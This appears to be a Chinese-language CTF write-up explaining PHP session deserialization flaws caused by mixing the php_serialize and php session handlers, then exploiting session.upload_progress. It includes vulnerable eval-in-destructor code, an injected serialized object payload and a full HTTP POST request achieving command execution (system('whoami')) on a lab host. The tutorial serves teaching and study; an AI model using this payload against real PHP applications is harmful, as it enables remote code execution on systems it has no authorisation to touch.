







首先, 从一道题看起. 

```php
# deserialize.php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Infosec{
    public $bacon;
    function __construct(){
        $this->bacon = 'phpinfo();';
    }
    function __destruct(){
        eval($this->bacon);
    }
}
if(isset($_GET['phpinfo'])){
    $m = new Infosec();
}
else{
    highlight_string(file_get_contents('deserialize.php'));
}
?>
```

想要理解 php-session 的反序列化漏洞, 需要先理解一下三个 **php session handler** 的概念.

| 处理器        | 对应的存储格式                      |
| ------------- | ----------------------------------- |
| php           | `username|s:5:"bacon";`             |
| php_binary    | `<0x08>username:5:"bacon";`         |
| php_serialize | `a:1:{s:8:"username";s:5:"bacon";}` |

当写入 session 的handler为 **php_serialize**, 但读取 session 的handler为 **php** 时, 可能导致反序列化漏洞. 

举个例子, 

```php
#phpSerializeTest.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["username"]=$_GET["u"];
?>
```

```php
#phpTest.php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class session {
    var $var; 
    function __destruct() {
         eval($this->var);
    }
}
?>
```

session 在哪里反序列化?  **session_start()**

`session_start()` 会在第一次请求`phpSerializeTest.php` 时生成 session , 当已经带着此 session_id 请求`phpTest.php` 时, `session_start()` 会反序列化 session 并填充到全局变量 `$_SESSION` . 

附上`session_start()` 的manual

  


在理解了 php 三个 session handler 对应的格式 和 session 如何、为何会被反序列化之后, 可以开始尝试理解 php-session 反序列化漏洞的原理了.

先在`phpSerializeTest.php `生成 session : 

  

攻击者可控的是 serialize 字符串 username 内的 bacon . 

使用 php_serialize 生成的 session , 使用 php_serialize handler 处理自然没有什么问题.

```json
a:1:{s:8:"username";s:5:"bacon";}
```

但若使用 php handler 处理 php_serialize 生成的session, 则可能存在反序列化漏洞. 

由于在 php handler 中,使用`|` 作为键名和值的分隔符, 如 `username|s:5:"bacon";`

在 php_serialize handler 中, 键值中的`|` 只是值的一部分, 

导致在使用 php_serialize handler 生成 session 时, 插入`|` 后交由 php handler 处理时会破坏原先序列化键值.

例如: 

当用户输入`|O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}` 时, session文件随之更新

  

而在使用 php handler 处理这个 session 时, 会将 `|` 前的`a:1:{s:8:"username";s:47:"` 作为键名, 

从而反序列化的键值从 `s:5:"bacon";` 变成了`O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}";}`

```json
a:1:{s:8:"username";s:47:"|O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}";}
```

同时, php 在 `unserialize()` 的时候有一个特性, 找到满足反序列化的字符串后即进行反序列化.

若反序列化的字符串末新增任何污染也不会影响反序列化的结果, 例如:

```php
<?php
class Infosec{
    public $bacon;
    function __destruct(){
        echo($this->bacon);
    }
}
unserialize('O:7:"Infosec":1:{s:5:"bacon";s:2:"hi";}SOME CRAAAAAAAAAAAAAAAAP')
?>
```

并不会导致反序列化失败:  

  

因此, php handler 处理这段 session 时, 最终反序列化的字符串为:  

`O:7:"session":1:{s:3:"var";s:10:"phpinfo();";}` 

由此存在反序列化漏洞. 


在理解 php-session 反序列化漏洞的原理之后, 再回去看那道题目.

先看眼 phpinfo , 发现开启了**session.upload_progress**: 

    

**session upload progress** 是 php 支持通过 http post 请求向 session 添加文件上传进度的一个特性. 

通过拼接 **session.upload_progress.prefix** , 如上文的 **upload_progress_** 

和 **session.upload_progress.name** ,即 post 请求中名为上文 **PHP_SESSION_UPLOAD_PROGRESS** 的值

为 session 的一个键名, 用来记录上传的具体进度. 详细的参考 https://www.php.net/manual/zh/session.upload-progress.php

  

并且从 phpinfo 里也可以看出, php session handler 的 Master Value 是 **php_serialize** , 而`deserialize.php`  的 Local Value 是 **php**

因此利用 session upload progress 上传的 session 是由 **php_serialize handler** 处理的, 
而当`deserialize.php` 的 `session_start() ` 执行时, 是由 **php handler** 处理的. 因此存在反序列化漏洞. 

本地指定php_serialize 生成payload: 

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Infosec{
    public $bacon="system('whoami');";
}
$m = new Infosec();
echo serialize($m)
# O:7:"Infosec":1:{s:5:"bacon";s:17:"system('whoami');";}
?>
```

  构造post form-data 的请求:  

```http
POST /deserialize.php HTTP/1.1
Host: 10.10.8.34
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypHPYmQrl3Zf60dqB
Cookie: PHPSESSID=kag8m9qg1o3dpcdbgk8jvf4puj;
Content-Length: 358

------WebKitFormBoundarypHPYmQrl3Zf60dqB
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

|O:7:"Infosec":1:{s:5:"bacon";s:17:"system('whoami');";}
------WebKitFormBoundarypHPYmQrl3Zf60dqB
Content-Disposition: form-data; name="file"; filename="1"
Content-Type: application/octet-stream

1
------WebKitFormBoundarypHPYmQrl3Zf60dqB--
```

成功rce:  

  


